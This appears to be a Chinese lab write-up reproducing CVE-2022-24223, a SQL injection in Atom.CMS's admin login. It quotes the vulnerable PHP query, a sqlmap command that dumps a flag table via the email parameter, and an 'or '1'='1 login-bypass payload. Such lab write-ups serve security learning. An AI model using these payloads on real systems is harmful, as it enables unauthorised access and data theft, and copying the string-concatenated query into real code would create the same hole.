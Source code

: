 ```yaml
---
title: CVE-2022-24223【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-24223)

## 2. 漏洞分析

[Sql Injection in /admin/login.php · Issue #255 · thedigicraft/Atom.CMS · GitHub](https://github.com/thedigicraft/Atom.CMS/issues/255)

注入点： /admin/login.php:

```php
<?php 
..... 
if($_POST)
  { 
  	 $q = "SELECT * FROM users WHERE email = '$_POST[email]' AND password = SHA1('$_POST[password]')"; 
  	 $r = mysqli_query($dbc, $q); 
.....
?>
```

## 3. 漏洞复现

登录页抓包 post 注入，示例如下

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309271631579.png)

```python
python sqlmap.py -r post.txt -p email -D atomcms -T flag -C flag --dump --batch
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309271632290.png)

注，登录后的 `……admin/index.php?page=users&id=1`  id 参数也存在注入漏洞【`email=alan@alan.com'or '1'='1&password=123`】。
